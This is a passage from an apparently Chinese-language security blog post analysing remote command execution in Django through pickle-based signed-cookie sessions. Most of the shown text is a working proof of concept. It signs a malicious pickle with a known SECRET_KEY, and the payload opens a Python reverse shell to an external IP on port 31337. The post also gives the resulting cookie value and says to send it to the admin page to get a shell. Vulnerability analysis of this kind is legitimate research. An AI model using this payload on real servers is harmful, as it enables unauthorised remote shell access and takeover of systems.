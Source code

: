![]({{ site.url }}/public/img/article/2015-09-12-django-command-execution-analysis/6.png)

同时服务器也抛出错误：

![]({{ site.url }}/public/img/article/2015-09-12-django-command-execution-analysis/7.png)

下面再给出一 PoC 用以 GetShell：

{% highlight python %}
# coding: utf-8
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
from django.conf import settings

settings.configure(SECRET_KEY='zur%eblm54)e)ox&-xzbwonmx$=+ijh3dl&6m-mx+1^y(-i09y')


class GetShellWithPython(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.call,
                (['python',
                  '-c',
                  'import socket,subprocess,os;'
                  's=socket.socket(socket.AF_INET,socket.SOCK_STREAM);'
                  's.connect(("103.224.82.158",31337));'
                  'os.dup2(s.fileno(),0);'
                  'os.dup2(s.fileno(),1);'
                  'os.dup2(s.fileno(),2);'
                  'subprocess.call(["/bin/sh","-i"]);'],))


sess = signing.dumps(
    obj=GetShellWithPython(),
    serializer=PickleSerializer,
    salt='django.contrib.sessions.backends.signed_cookies'
)
print sess
{% endhighlight %}

运行该 PoC 后，得到加密后的 session 值：

    gAJjc3VicHJvY2VzcwpjYWxsCnEBXXECKFUGcHl0aG9ucQNVAi1jcQRV12ltcG9ydCBzb2NrZXQsc3VicHJvY2VzcyxvcztzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsc29ja2V0LlNPQ0tfU1RSRUFNKTtzLmNvbm5lY3QoKCIxMDMuMjI0LjgyLjE1OCIsMzEzMzcpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtzdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwiLWkiXSk7cQVlhVJxBi4:1Zb69o:JrnUm9KCbIDWVh13g2i5rY0o11E

然后请求 `http://127.0.0.1:8000/admin/` 并附上相应的 session 值。

![]({{ site.url }}/public/img/article/2015-09-12-django-command-execution-analysis/8.png)

可以看到，已经成功 GetShell。

### 四、小结
